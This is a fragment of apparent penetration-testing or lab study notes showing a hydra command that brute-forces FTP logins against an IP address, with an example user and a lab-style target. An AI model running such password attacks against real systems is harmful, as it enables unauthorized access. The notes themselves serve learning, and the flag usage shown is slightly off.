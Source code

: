 To find passwords found from a .txt file from FTP: 
    - hydra -t 4 -l [users] -p /path_to_DIR_Of_possible_passwords -vV [IP] [protocol]
      - Ex: hydra -t 4 -l john -p /usr/share/etc. -vV 10.10.10.6 ftp
        - anonymous
